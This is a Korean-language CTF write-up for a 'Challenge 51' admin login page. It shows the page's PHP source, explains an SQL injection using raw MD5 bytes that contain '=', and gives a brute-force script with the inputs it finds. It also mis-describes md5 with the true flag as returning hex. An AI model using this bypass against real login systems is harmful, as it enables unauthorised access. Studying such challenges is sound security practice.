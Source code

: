 #51
===



로그인 페이지가 보인다.

![](https://postfiles.pstatic.net/MjAyMDAxMThfNDUg/MDAxNTc5MzUwMzMxMzMx.MUAlmp7cW64yuZDZxfRTkcp2FbBoGiWEm_WrmYnOXC0g.nP0tOnX9R8oV4Kh4t2QB0metBZkQdu5e63gp9rjiIzog.JPEG.rlaeoghks823/K-037.jpg?type=w773)

id와 pw에 아무거나쳐봤다.

![](https://postfiles.pstatic.net/MjAyMDAxMThfMTY5/MDAxNTc5MzUwMzM0MzU4.n8rMYBKzZflnpu_hho8QJMEySTfY-EPUClMacv1faxkg.9FMj9b9VNwrpnyN5xKSmetLp9WcV6wH0Xt8WSIwaEc8g.JPEG.rlaeoghks823/K-038.jpg?type=w773)

wrong이라는 문구가 뜨고 끝이다.

어떤 방식으로 해결해야할지 실마리를 얻기 위해 소스 코드를 봐보았다.

```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?>

<html>
<head>
<title>Challenge 51</title>
<style>
table{ color:lightgreen;}
</style>
</head>
<body bgcolor=black><br><br>
<font color=silver>
<center><h1>Admin page</h1></center>
</font>

<?php
  if($_POST['id'] && $_POST['pw']){
    $db = dbconnect();
    $input_id = addslashes($_POST['id']);
    $input_pw = md5($_POST['pw'],true);
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall51 where id='{$input_id}' and pw='{$input_pw}'"));
    if($result['id']) solve(51);
    if(!$result['id']) echo "<center><font color=green><h1>Wrong</h1></font></center>";
  }
?>
<br><br><br>
<form method=post>
<table border=0 align=center bgcolor=gray width=200 height=100>
<tr align=center><td>ID</td><td><input type=text name=id></td></tr>
<tr align=center><td>PW</td><td><input type=password name=pw></td></tr>
<tr><td colspan=2 align=center><input type=submit></td></tr>
</table>
<font color=silver>
<div align=right><br>.<br>.<br>.<br>.<br><a href=./?view_source=1>view-source</a></div>
</font>
</form>
</body>
</html>
```

눈에 띄는 코드는 다음과 같다.

```php
$input_pw = md5($_POST['pw'],true);
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall51 where id='{$input_id}' and pw='{$input_pw}'"));
    if($result['id']) solve(51);
```

먼저 md5라는 함수에서 pw값을 md5값으로 바꿔준다. 

인자를 true로 주면 16진수 32글자로된 md5 해시값의 문자열을 반환해준다. 

문제를 해결하기 위해 아래와 같은 과정이 필요하다.

pw에 `어떤 값1 = 어떤 값2`라는걸 넣어주면  
pw = 어떤 값1 = 어떤 값2가 된다.

여기서  
pw = 어떤 값1 -> 거짓

어떤 값2도 문자이므로 거짓이다.

따라서 거짓=거짓 으로 인해 pw='{$input_pw}'는 참이 된다.

그래서 md5로 인코딩 했을 때 나오는 값이 '='이 든 값을 찾기 위해서 아래와 같은 코드를 구했다.

```php
<?php
for($i=0;$i<10000000;$i++){
	if(strstr(md5($i,true),"'='")){
		echo ("$i, ");
	}
}
```

이로써 나온 값은 `1839431, 2584670, 2632003, 2998869, 4939073, 5263117, 5273607, 5872358, 7201387, 8930081, 9235566,` 이였고 이중 값 하나를

pw에 넣어주니 문제가 해결되었다.
